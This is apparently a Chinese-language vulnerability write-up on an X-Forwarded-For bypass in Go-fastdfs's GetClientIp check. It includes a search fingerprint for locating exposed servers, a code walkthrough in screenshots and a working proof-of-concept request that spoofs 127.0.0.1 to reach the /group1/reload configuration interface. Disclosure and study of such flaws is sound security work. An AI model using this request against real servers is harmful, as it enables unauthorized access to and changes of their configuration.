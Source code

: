 # Go-fastdfs GetClientIp 未授权访问漏洞

# Go-fastdfs GetClientIp 未授权访问漏洞

## 漏洞描述

Go-fastdfs GetClientIp方法存在XFF头绕过漏洞，攻击者通过漏洞可以未授权调用接口，获取配置文件等敏感信息

## 漏洞影响

```
Go-fastdfs
```

## 网络测绘

```
"go-fastdfs"
```

## 漏洞复现

主页面

![image-20230417094508409](images/image-20230417094508409.png)

调用读取配置接口，返回 ip 不允许访问

```
/group1/reload?action=get
```

![image-20230417094521737](images/image-20230417094521737.png)

追踪错误信息代码

![image-20230417094533985](images/image-20230417094533985.png)

![image-20230417094542486](images/image-20230417094542486.png)

跟一下 GetClientIp方法，这里会从 X-Forwarded-For 等参数获取值

![image-20230417094554500](images/image-20230417094554500.png)

回到调用的起点，验证方法为调用 IsPeer 参数

![image-20230417094604965](images/image-20230417094604965.png)

![image-20230417094613037](images/image-20230417094613037.png)

这里主要是验证获取到的值是否为配置中的 AdminIps

![image-20230417094623353](images/image-20230417094623353.png)

在配置文件 cfg.json 中 admin_ips 默认为 127.0.0.1 (可被爆破)

![image-20230417100058531](images/image-20230417100058531.png)

所以通过设置 X-Forwarded-For 就可以绕过接口调用限制，执行修改配置文件等操作，验证POC

```
/group1/reload?action=get

X-Forwarded-For: 127.0.0.1
```

![image-20230417100112324](images/image-20230417100112324.png)


